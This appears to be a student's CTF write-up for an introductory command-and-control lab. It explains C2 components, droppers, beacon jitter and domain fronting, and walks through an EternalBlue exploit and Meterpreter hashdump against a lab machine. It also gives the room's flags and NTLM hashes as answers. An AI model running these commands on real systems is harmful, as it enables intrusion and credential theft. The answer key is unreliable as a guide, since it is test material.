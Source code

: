# Intro to C2 - Medium

1. [Command and Control Framework Structure](#command-and-control-framework-structure)
2. [Common C2 Frameworks](#common-c2-frameworks)
3. [C2 Operation Basics](#c2-operation-basics)
4. [Command, Control and Conquer](#command-control-and-conquer)
5. [Advanced C2 Setups](#advanced-c2-setups)

## Command and Control Framework Structure

* Command and Control (C2) Frameworks are an essential part of both Red Teamers and Advanced Adversaries playbooks. They help in managing compromised devices and aid in lateral movement.

* C2 Structure:

  * C2 Server - This serves as a hub for C2 agents to call back to.

  * Agents/Payloads - Program generated by the C2 framework that calls back to a listener on a C2 server; most C2 frameworks implement pseudo commands.

  * Listeners - Application running on the C2 server that waits for a callback over a specific port/protocol.

  * Beacon - Process of a C2 agent calling back to the listener running on a C2 server.

* Obfuscating Agent Callbacks:

  * Sleep timers - rate at which a device beacons out to a C2 server.

  * Jitter - adds variation to the sleep timer in order to make the activity look like an average user's.

* Payload Types:

  * Stageless Payloads:
  
    * They contain the full C2 agent and will call back to the C2 server and begin beaconing immediately.

    * Steps for establishing C2 beaconing with a stageless payload:

        1. Victim downloads and executes the Dropper
        2. The beaconing to the C2 server begins

  * Staged Payloads:

    * They require a callback to the C2 server to download additional parts of the C2 agent; these payloads are also called 'droppers'.

    * Preferred over stageless payloads due to easier obfuscation process.

    * Steps for establishing C2 beaconing with a staged payload:

        1. Victim downloads and executes the Dropper
        2. Dropper calls back to the C2 server for Stage 2
        3. C2 server sends Stage 2 back to the Victim Workstation
        4. Stage 2 is loaded into memory on the Victim Workstation
        5. C2 beaconing starts

* Modules:

  * Post Exploitation Modules - used after the initial point of compromise.

  * Pivoting Modules - to access restricted network segments within the C2 framework.

* Placing infrastructure in plain view:

  * Domain Fronting - Red Teamers utilize a known host (like Cloudflare) and make it appear that a workstation/server is communicating with a trusted IP address.

  * C2 Profiles - Proxy features allow a user to control specific elements of the incoming HTTP request.

```markdown
1. What is the component's name that lives on the victim machine that calls back to the C2 server? - Agent

2. What is the beaconing option that introduces a random delay value to the sleep timer? - Jitter

3. What is the term for the first portion of a Staged payload? - Dropper

4. What is the name of the communication method that can potentially allow access to a restricted network segment that communicates via TCP ports 139 and 445? - SMB Beacon
```

## Common C2 Frameworks

* Free C2 frameworks:

  * Metasploit
  
  * Armitage
  
  * Powershell Empire / Starkiller

  * Covenant

  * Sliver

* Paid C2 frameworks:

  * Cobalt Strike

  * Brute Ratel

## C2 Operation Basics

```markdown
1. Which listener should you choose if you have a device that cannot easily access the internet? - DNS

2. Which listener should you choose if you're accessing a restricted network segment? - SMB

3. Which listener should you choose if you are dealing with a Firewall that does protocol inspection? - HTTPS
```

## Command, Control and Conquer

```shell
nmap -T4 -A 10.10.252.35

msfconsole

use exploit/windows/smb/ms17_010_eternalblue

set RHOSTS 10.10.252.35

show options

show targets

exploit

#gives Meterpreter session

help
#view commands

hashdump
#dumps hashes
```

```markdown
After the nmap scan, we know that the machine is running Windows 7 Home Basic 7600.

This means we can attempt the EternalBlue exploit using Metasploit.

After configuring all options and exploiting, we get a Meterpreter session, with admin access.

User flag can be found in Ted's Desktop

Root flag can be found in Administrator's Desktop.

hashdump command can be used to get hashes.
```

```markdown
1. What flag can be found after gaining Administrative access to the PC? - THM{bd6ea6c871dced619876321081132744}

2. What is the Administrator's NTLM hash? - c156d5d108721c5626a6a054d6e0943c

3. What flag can be found after gaining access to Ted's user account? - THM{217fa45e35f8353ffd04cfc0be28e760}

4. What is Ted's NTLM hash? - 2e2618f266da8867e5664425c1309a5c
```

## Advanced C2 Setups

```markdown
1. What setting name that allows you to modify the User Agent field in a Meterpreter payload? - HttpUserAgent

2. What setting name that allows you to modify the Host header in a Meterpreter payload? - HttpHostHeader
```
